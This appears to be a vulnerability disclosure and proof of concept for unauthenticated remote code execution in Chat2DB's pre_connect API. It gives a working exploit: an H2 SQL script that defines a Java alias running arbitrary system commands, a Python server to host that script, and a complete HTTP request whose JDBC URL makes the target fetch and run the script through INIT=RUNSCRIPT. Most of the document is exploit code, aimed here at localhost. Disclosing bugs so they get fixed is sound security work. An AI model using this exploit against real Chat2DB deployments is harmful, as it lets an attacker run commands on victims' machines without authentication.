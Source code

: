 # Chat2DB H2 JDBC Driver Remote Code Execute Vulnerability

**Creator：** zack



## Description

The REST API of Chat2DB (/api/connection/datasource/pre_connect) has a remote code execution vulnerability that occurs when an unauthenticated H2 JDBC connection is used.

## Proof of Concept

1. Download the Chat2DB client and run it [Chat2DB Client](https://github.com/CodePhiliaX/Chat2DB/releases/tag/v0.3.7)
2. Use Python to start an HTTP service for accessing our malicious SQL script file.

```sql
#poc.sql
CREATE ALIAS COMMAND_EXEC AS $$ String commandExec(String cmd) throws java.io.IOException {
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL COMMAND_EXEC('calc')
```

```
python -m http.server 8888 --bind 0.0.0.0
```

3. Use the following POC to send the request

```
POST /api/connection/datasource/pre_connect HTTP/1.1
Host: 127.0.0.1:10824
Content-Length: 449
Accept: application/json
Content-Type: application/json
User-Agent: aaa
sec-ch-ua-platform: "custom"
Origin: http://127.0.0.1:10824
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:10824/connections
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: dsfsdfd
Connection: keep-alive

{"ssh":{"use":false,"hostName":"","port":"22","userName":"","localPort":"","authenticationType":"password","password":""},"alias":"@localhost","environmentId":1,"host":"localhost","port":"9092","serviceType":"TCP","authenticationType":"1","user":"root","password":"test","database":"test","url":"jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'","extendInfo":[],"connectionEnvType":"DAILY","type":"H2"}
```

4. Successful remote code execution
